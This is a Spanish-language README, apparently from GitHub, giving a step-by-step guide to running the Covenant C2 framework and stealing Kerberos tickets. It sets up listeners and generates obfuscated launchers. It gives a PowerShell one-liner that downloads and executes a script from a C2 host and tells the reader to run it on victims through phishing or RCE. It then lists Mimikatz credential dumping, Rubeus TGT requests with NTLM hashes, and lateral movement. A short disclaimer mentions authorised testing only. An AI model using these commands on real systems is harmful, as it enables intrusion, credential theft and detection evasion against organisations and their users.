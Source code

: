 # CovenTicket
Guía paso a paso para robar un *Ticket Granting Ticket (TGT)* de Kerberos usando **Covenant** como C2. Incluye:
1. **Preparación**: Instalación de Covenant en Kali Linux (requiere .NET Core).  
2. **Técnicas**:  
   - Uso de **Rubeus** (`asktgt`) para generar TGT con credenciales/NTLM hash.  
   - Extracción de tickets con **Mimikatz** (`sekurlsa::tickets`).  
3. **Propósito**:  
   - Movimiento lateral en redes Active Directory.  
   - Escalada de privilegios (*Golden Ticket*).  
4. **Contexto Ético**:  
   - Solo para pruebas de penetración *autorizadas* y entrenamiento Red Team.  
   - Técnicas asociadas a **MITRE ATT&CK T1558.001**.

![imagen](https://github.com/90l3m0np13/CovenTicket/blob/main/Covenant/Covenant.jpeg)

# 🔧 Configuración inicial

-  Cambiar credenciales predeterminadas (en la primera ejecución).

-  Crear un Listener (HTTP/HTTPS) para recibir conexiones de los Grunts.

-  Generar un Launcher (PowerShell, Binary, etc.) para infectar los sistemas objetivo.

  
## 1⚙️ Instalación de Covenant:
```bash
https://github.com/cobbr/Covenant/wiki/Installation-And-Startup
````

## 2 Ejecutar Covenant (modo desarrollo):

````bash
dotnet run
````
## 3 Acceder a la interfaz web: 
Abre un navegador y visita:
🔗 http://localhost:7443
Credenciales por defecto:
```bash
Usuario: usuario
Contraseña: password123
```

## 4 🎧 Configuración del Listener (HTTP/HTTPS)

-  Ve a Listeners > Create.

-  Selecciona HTTP (o HTTPS si tienes certificados).

- Configuración básica:

    - Name: MiListener-HTTP

    - BindAddress: 0.0.0.0 (escucha en todas las interfaces).

    - BindPort: 80 (HTTP) o 443 (HTTPS).

    - ConnectAddress: <IP_Pública_o_Dominio> (¡Obligatorio!).

- Perfiles C2: Usa uno predefinido (ej: default) o personaliza headers/user-agents.

- Guardar e Iniciar:

    - Click en Create y luego en Start.

![imagen](https://github.com/90l3m0np13/CovenTicket/blob/main/Covenant/Covenant-Listener.png)

## 2 🚀 Generación de Launchers
Objetivo: Crear payloads para ejecutar en sistemas víctimas y obtener Grunts.

### Tipos comunes y pasos:

- A. PowerShell Launcher (One-liner):
    - Ve a Launchers > PowerShell.

    - Configura:

        - Listener: MiListener-HTTP.

        - Obfuscation: Habilita Obfuscate Command (evita detección).

![imagen](https://github.com/90l3m0np13/CovenTicket/blob/main/Covenant/Covenant-Launcher_Generate.png)
    
   - Generar
        - Copia el comando resultante
        
      ```bash
      powershell -nop -w hidden -c "IEX (New-Object Net.WebClient).DownloadString('http://<C2_IP>/launcher.ps1')"
      ```
        
        - Ejecútalo en la máquina víctima (ej: via phishing o RCE).
  
![imagen](https://github.com/90l3m0np13/CovenTicket/blob/main/Covenant/Covenant-Launcher_Host.png)

  - B. Binary Launcher (EXE)

    - Ve a Launchers > Binary.

    - Configura:

        - Listener: MiListener-HTTP.

        - DotNet Version: Net40 (compatible con más sistemas).

    - Generar:

        - Descarga el .exe y ejecútalo en la víctima.

## 3 🤖  Administración de Grunts
### Objetivo: Interactuar con los sistemas comprometidos.

Pasos: 
  - Ver Grunts activos:

     - En el dashboard principal, aparecerán bajo Grunts al conectarse.

  - Interactuar con un Grunt:

    - Selecciona el Grunt > Click en Interact.
![imagen](https://github.com/90l3m0np13/CovenTicket/blob/main/Covenant/Grunt-Interact.png)

    - Usa la consola para ejecutar comandos:
     ```bash
     Shell whoami /all          # Ver información del usuario.
     Shell net user /domain     # Listar usuarios del dominio (si es AD).
     ````
Comandos útiles:

-  Comando | 	Descripción

-  Shell <cmd>	|  Ejecuta comandos del sistema.

-  Upload <local> <remoto>	| Sube archivos al Grunt.

-  Download <remoto> <local>	| Descarga archivos del Grunt.

-  Ps |	Lista procesos en ejecución.

-  Inject <PID> <shellcode> |	Inyecta código en un proceso.

-  Pivot <técnica> |	Movimiento lateral (ej: SMB, WMI).

### Módulos avanzados.
 - Mimikatz Extraer credenciales:
```bash
Invoke-Mimikatz -Command '"sekurlsa::logonpasswords"'
````
 - Rubeus Robar tickets Kerberos (TGT):
```bash
Execute Rubeus.exe asktgt /user:Administrator /rc4:<NTLM_Hash> /nowrap
````
# 🚨 Solución de errores comunes
Error con ICU:

````bash
sudo apt install libicu-dev -y
export DOTNET_SYSTEM_GLOBALIZATION_INVARIANT=1
````
Problemas con .NET:
````bash
wget https://packages.microsoft.com/config/debian/10/packages-microsoft-prod.deb
sudo dpkg -i packages-microsoft-prod.deb
sudo apt update && sudo apt install -y dotnet-sdk-6.0
````

## 🎯 Ejemplo de Flujo Completo
  - Listener: Creas MiListener-HTTP en el puerto 80.
  - Launcher: Generas un one-liner de PowerShell y lo ejecutas en la víctima.
  - Grunts: Interactúas con el Grunt, robas credenciales con Mimikatz y te mueves lateralmente.

## 📌 Notas clave
  - Kali + Covenant: Asegúrate de que el servidor Covenant sea accesible desde el exterior (configura NAT/port forwarding si es necesario).
  - HTTPS > HTTP: Siempre preferible para evitar sniffing.
  - Grunts muertos: Si un Grunt se cae, regenera el Launcher con el mismo perfil.



